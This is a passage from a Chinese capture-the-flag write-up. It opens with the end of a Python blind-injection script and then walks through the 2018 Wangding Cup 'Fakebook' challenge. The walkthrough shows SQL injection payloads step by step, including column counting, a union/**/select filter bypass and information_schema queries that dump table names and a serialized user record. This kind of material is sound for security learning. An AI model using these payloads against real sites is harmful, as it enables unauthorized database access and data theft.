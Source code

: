 ```cpp
            high=mid-1
        result=(low+high+1)//2
        if(result==127 or result==31):
            break
    flag+=chr(result)
    print(flag)
    time.sleep(0.1)
```





## [网鼎杯 2018]Fakebook

> 1，注册一个用户，发现username处的内容是个url，查看一下。
>
> 2，查看url,发现存在SQL注入。
>
> ?n=1 order by 4# 正常回显
>
> ?n=1 order by 5# 回显异常（判断存在4个字段）
>
> 3，构造SQL语句，发现union select被过滤
>
> 使用union/**/select(或unoin all select)可绕过
>
> 
>
> ?no=-1 union/**/select 1,database(),3,4# （查数据库） 发现 'fakebook'
>
> 
>
> ?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'# （查表名） 发现'users'
>
> 
>
> ?no=-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#  (查字段)  字段名'no,username,data'
>
> 
>
> ?no=-1 union/**/select 1,data,3,4 from users# 查询data的结果
>
> O:8:"UserInfo":3:{s:4:"name";s:6:"adminn";s:3:"age";i:1;s:4:"blog";s:70:"http://fdc6f852-9cb6-462d-b6d5-bda01fe3d3d9.node4.buuoj.cn:81/join.php";}

![img](https://img-blog.csdnimg.cn/4023fc4438034014a475fe26f32603fb.png)





